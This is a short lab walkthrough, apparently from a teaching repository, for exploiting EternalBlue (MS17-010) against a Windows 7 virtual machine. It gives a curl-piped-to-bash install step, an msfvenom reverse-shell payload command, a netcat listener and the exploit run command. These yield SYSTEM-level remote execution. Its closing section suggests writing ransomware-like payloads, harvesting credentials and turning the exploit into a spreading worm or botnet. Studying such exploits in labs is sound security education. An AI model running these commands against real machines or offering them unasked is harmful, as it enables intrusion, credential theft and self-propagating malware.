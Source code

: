 # EternalBlue

- Built on: Environment: Kali Linux and Vulnerable Windows 7(64bit) VMs (2020.09)

## Preparation

On Linux: `curl -fsSL https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.sh | bash`

On Windows: merge https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.reg ([zip](https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.reg.zip))

## Steps

1. On Windows (`target.example.com`), share a folder (it doesn't matter which folder is shared. We only need to start the file sharing server software)
2. On Linux (`kali.example.com`), prepare a payload and name it `ms17-010.exe`. If you don't have something ready, try the reverse shell and create it with command: `msfvenom -p windows/shell_reverse_tcp LHOST=kali.example.com LPORT=8443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe`
3. If you're going with the reverse shell approach, listen on port 8443 on Linux in another terminal window: `nc -nlvp 8443`
4. We omit the step to probe the victim and identify the vulnerabilities since we know about it, and directly run the attacking script: `python send_and_execute.py target.example.com ms17-010.exe`
5. Now your payload is running on the victim machine under `NT AUTHORITY\SYSTEM` privilege. We omit the step to verify that. If you're going with the reverse shell approach, You should get an inbound connection on your netcat server listening on port 8443, providing you with a shell (cmd). Every command you enter is executed on the victim machine.

## Exploration

- Inspect the Python scripts and related docs (protocol spec) and try to understand them, including how the smb protocol (Windows file sharing service) and server work, what the flaw is, how it is exploited, and how to fix it, etc.
- Design your own payload (like the ransomware in the news events, but you're not limited to ransomwares and can do anything on the victim. The guide in the reference proceeds with extracting login credentials from the system manually in the reverse shell).
- Think about implementing an exploit inside the payload, and the ability to probe other hosts reachable over the network, attack them and spread itself. This can be used to create a computer worm and/or botnet (discussed elsewhere).

## Reference

- [Exploiting MS17-010 without Metasploit (Win XP SP3)](https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/) 

